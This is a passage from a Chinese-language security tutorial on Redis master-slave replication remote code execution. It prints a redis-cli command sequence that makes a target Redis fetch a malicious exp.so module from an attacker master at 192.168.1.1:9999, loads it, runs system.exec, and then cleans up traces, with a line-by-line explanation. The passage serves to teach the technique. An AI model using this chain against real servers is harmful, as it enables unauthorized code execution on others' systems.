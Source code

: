 可以用于对  
Windows 平台下写无损 EXE。其**原理是利用Redis的主从同步写数据**  
，具体点来说就是，在  
Redis 主从复制环境中插入一个假的 Redis 服务器，并与真正的 Redis 服务器（通过 Remote 类表示）来进行命令交互（也就是写文件）。  
  
再具体一点就是如下步骤  
  
1.设置一个假的主服务器，让目标机器连接到主服务器  
  
2.发送命令  
  
3.进行写文件。这里是主服务器发送一个RDB文件给从服务器（目标机器），从服务器写入。  
  
既然提到了该工具的原理，那就再聊聊主从复制RCE的原理  
  
  
**5.主从复制RCE的原理**  
  
****  
为了让读者看的更直观，麋鹿把上面主从复制RCE的命令摘选出来解读一下原理，这里的前提是已经用py脚本把exp.so上传到目标redis了  
  
忘了，应该还有一个前提--在Reids 4.x之后，Redis新增了模块功能，通过外部拓展（比如.so)，从而在redis中实现一个新的Redis命令（比如system.exec)  
```
redis-cli -h 192.168.1.10
> config set dir ./               
> config set dbfilename exp.so    
> slaveof 192.168.1.1 9999       
> module load ./exp.so           
> slaveof no one                 
> system.exec 'whoami'          
> config set dbfilename dump.rdb 
> system.exec 'rm ./exp.so'      
> module unload system
```  
  
  
第一行  
redis-cli -h 192.168.1.10的意思一目了然--连接到目标redis(靶机）  
  
第二行  
config set dir ./：    将 Redis 的数据目录设置为当前目录。这个设置快照（RDB 文件）的保存位置。  
  
第三行 将redis快照名设置为exp.so。  
  
第二行和第三行就是  
配置目标服务器的 RDB 文件路径和文件名，为了确保可以在后面的步骤中写入文件。  
  
第四行就是前面提到的，创建一个ip为  
192.168.1.1 端口为9999的redis主服务器，并把当前实例（目标redis，ip为192.1681.10）设为从服务器。  
  
五 加载当前目录下的exp.so，此时exp.so已经同步完了，192.168.1.10已经把主服务器的RDB文件（exp.so）自动复制过来了，也就是exp.so已经存在与从服务器了，所以是在192.168.1.10主机里加载。  
  
六   
slaveof no one 停止主从关系，将192.168.1.10恢复为独立的主服务器  
  
七 用exp.so提供的system.exec执行whoami命令  
  
八   
config set dbfilename dump.rdb将 Redis 快照文件名重新设置为默认的 dump.rdb  
  